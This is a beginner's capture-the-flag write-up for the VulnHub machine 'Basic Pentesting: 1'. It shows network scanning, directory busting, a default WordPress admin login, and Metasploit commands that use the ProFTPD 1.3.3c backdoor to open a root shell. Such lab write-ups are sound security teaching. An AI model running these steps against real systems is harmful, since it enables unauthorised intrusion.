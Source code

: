 # Basic Pentesting: 1 Writeup

## About the Capture the Flag 
Name: Basic Pentesting: 1\
Release date: 8 Dec 2017\
Author: [Josiah Pierce](https://www.vulnhub.com/author/josiah-pierce,569/)\
Series: [Basic Pentesting](https://www.vulnhub.com/series/basic-pentesting,143/)\
Link: [LINK TO CTF](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

## Start of writeup

### Introduction
This CTF is one of the first CTFs I've done whilst diving deeper into cybersecurity, it's a very simple, and beginner friendly CTF which serves the purpose of showing basic tools used to ennumerate a network and target. 

### Goal of the CTF
The goal of this CTF is to remotely attack the Virtual Machine and gain root access/privileges. 

### Gaining root access
Since there's only one goal during this CTF challenge, gaining root access of the VM, the goal is simple. The first step is to ennumerate the network and the target. Enumeration is the process of gaining more knowledge about the target you're attacking. Think about things like user names, machine names, network resources, open ports, versions of services running on the system. With the information gathered in this phase weak points of the system are exposed and points of entry are established.

The enumeration process during this CTF consisted of doing a [Netdiscover](https://kalilinuxtutorials.com/netdiscover-scan-live-hosts-network/) scan to see what the IP address is of the VM machine. 

```python
netdiscover -r 192.168.0.0
```

The scan returns the IP adress of 192.168.0.16, this will be the IP we'll be working with. The next step is to do an NMAP scan, NMAP is a scanning tool which allows us to map out the ports used on the target, what they're running and what version of it is running. For more information about NMAP, the different flags etc, visit [the NMAP website](https://nmap.org). For our CTF we use the following command:

```python
nmap -sC -sV -sS -AT4 192.168.0.16
```

(/images/bpen_nmap.jpg)\

The scan shows that there are three ports: 21,22 and 80. Usually bu default, these ports run FTP, SSH and HTTP respectively. The first thing I do is try to see if there's anything interesting to find at the FTP part of things. The common "anonymous" user exists but the password is unknown, trying the usual things as anonymous/anonymous didn't work either. We'll leave FTP be for now.\

The next logical step is visting the website ran on port 80. Upon visiting the website we're greeted with a basic HTML page, saying it works.

(/images/landing_page.jpg)\

When checking the page's source code, which is often overlooked, there's nothing noticeable either. Seeing there's no buttons or links you can click to scout the website further, it's time for a directory buster tool. We'll use dirb for this. DIRB is a web content scanner it looks for existing and hidden Web Objects. You do this by launching an attack to a site where it goes through a common wordlist to check if they apply to that target. /admin for example is a commonly used Web Object which usually is hidden but existing.

```python
dirb http://192.168.0.16
```

(/images/dirb_find.jpg)\

This scan highlighted a lot of interesting things, it shows an interesting directory named "/secret". Also several WP components came to light, indicating that there is a WordPress website in the secret folder. Upon going to the directory you're greeted with a WordPress website with a login and some blog posts, navigate to the login page down at the page. Almost all well known networking devices and applications come preconfigured with a default password and username. Sometimes users of these devices and applications forget to change the password of this user or forget to remove this user entirely. In the case of WordPress the default name and password is "admin" & "admin". When we try this on this website, it actually works and it seems like the developers forgot to change the password to something different. Thanks to this mistake we now got access to the admin panel of the WordPress website. In other circumstances there's a possiblity to use the WPSCAN tool, a WordPress security scanner which can brute force usernames and passwords for WordPress.

(/images/admin_panel.jpg)\

One of the things you can do from here is upload a malicious PHP file that contains a shell which allows for commands to be executed from a shell on the target host. But I decided to see if there was other ways in. I decided to run a searchsploit request for the FTP version of the software running on port 21 earlier. Searchsploit looks for vulnerabilities in outdated versions of software.

```python
searchsploit ProFTPD 1.3.3c
```

(/images/searchsploit_ftp.jpg)\

As shown on the image the search resulted in finding a succesful backdoor exploit. The next step is by starting up the msfconsole and run the said exploit. The msfconsole is part of Metasploit. It allows you to efficiently use all the options available in Metasploit.

(/images/msfconsole.jpg)\

After setting up all the information for the exploit, the listening host (us), the target host, what port to target and what port we wanna listen on, it's time to execute the selected exploit. We executed the following command to set up the exploit:

```python
set RHOSTS 192.168.0.16
set payload 3
set LHOST 192.168.0.15
exploit
```

(/images/msfconsole_exploit.jpg)\

As you can see command shell is opened, although there's one small problem, theres no command line to be seen. To fix this, we need a little bit of Python code. After executing this line of code, we goot root access to the machine!!

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

(/images/pythonroot.jpg)\


### Conclusion
The Basic Pentesting - 1 CTF was very easy to complete. During this CTF we managed to exploit different parts of the system. The HTTP website by using a directory attack, the WordPress website by using WPSCAN/default credentials and of course using Metasploit to exploit FTP. Also some Python code was used to go from a limited shell to full root access. There were different approaches to this but I found using this approach to gaining root access did it for me. Good luck and have fun with this CTF!



